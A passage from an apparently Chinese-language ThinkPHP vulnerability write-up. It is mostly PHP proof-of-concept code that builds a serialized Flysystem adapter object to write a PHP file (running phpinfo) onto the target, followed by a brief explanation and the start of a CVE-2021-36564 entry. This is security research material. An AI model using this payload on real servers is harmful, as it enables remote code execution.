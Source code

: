 ```plain
    {
        protected $adapter;
        protected $file;

        public function __construct(){
            $this->complete = "*/<?php phpinfo();?>";
            $this->expire = "永遠的神y4";
            $this->adapter = new \League\Flysystem\Adapter\Local();
            $this->file = "y4tacker.php";
        }

    }
}

namespace League\Flysystem\Adapter{
    class Local extends AbstractAdapter{

    }
    abstract class AbstractAdapter{
        protected $pathPrefix;
        public function __construct(){
            $this->pathPrefix = "./";
        }
    }
}

namespace {

    use League\Flysystem\Cached\Storage\Adapter;
    $a = new Adapter();
    echo urlencode((serialize($a)));
}
```

区别就是初始化的时候赋值的 complete 变量，因为$contents = $this->getForStorage();我们跟进 getForStorage() 方法就可以发现 return json\_encode(\[$cleaned, $this->complete, $this->expire\]);我们自然可以只赋值 complete 变量

### 参考

[https://zhuanlan.zhihu.com/p/652094569](https://zhuanlan.zhihu.com/p/652094569)

## CVE-2021-36564

### 简历

ThinkPHP v6.0.8 通过组件 vendor\\league\\flysystem-cached-adapter\\src\\Storage\\Adapter.php 发现一个反序列化漏洞。

### 范围：

thinkphp<6.0.9
